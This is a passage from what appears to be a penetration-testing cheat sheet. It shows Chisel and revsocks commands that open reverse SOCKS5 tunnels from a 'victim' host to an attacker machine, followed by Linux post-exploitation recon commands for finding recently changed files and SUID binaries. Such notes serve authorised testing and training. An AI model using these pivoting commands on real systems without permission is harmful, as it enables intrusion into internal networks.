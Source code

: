 Socks5 proxy with Chisel in server mode:

```
1. user@victim:$ ./chisel server -p 8000 --socks5 &
2. root@kali:$ ./chisel client 10.10.13.38:8000 socks
```

Socks5 proxy with Chisel in server mode when direct connection to server is not available (not relevant as Chisel now supports socks5 in client mode):

```
1. root@kali:$ ./chisel server -p 8000 --reverse
2. user@victim:$ ./chisel client 10.10.13.37:8000 R:127.0.0.1:8001:127.0.0.1:8002 &
3. user@victim:$ ./chisel server -v -p 8002 --socks5 &
4. root@kali:$ ./chisel client 127.0.0.1:8001 1080:socks
```

Socks5 proxy with Chisel in client mode:

```
1. root@kali:$ ./chisel server -p 8000 --reverse --socks5
2. user@victim:$ ./chisel client 10.10.13.37:8000 R:socks
```



### revsocks

* [github.com/kost/revsocks](https://github.com/kost/revsocks)

```
1. root@kali:$ ./revsocks -listen :8000 -socks 127.0.0.1:1080 -pass 'Passw0rd!'
2. user@victim:$ ./revsocks -connect 10.14.14.3:8000 -pass 'Passw0rd!'
```




## Post Exploitation



### Linux


#### Recon

Find and list all files newer than `2020-03-16` and not newer than `2020-03-17`:

```
user@vict:$ find / -type f -readable -newermt '2020-03-16' ! -newermt '2020-03-17' -ls 2>/dev/null
```

Find SUID binaries:

```
# User
find / -type f -perm /4000 -ls 2>/dev/null
# Group
find / -type f -perm /2000 -ls 2>/dev/null
# Both
find / -type f -perm /6000 -ls 2>/dev/null
```
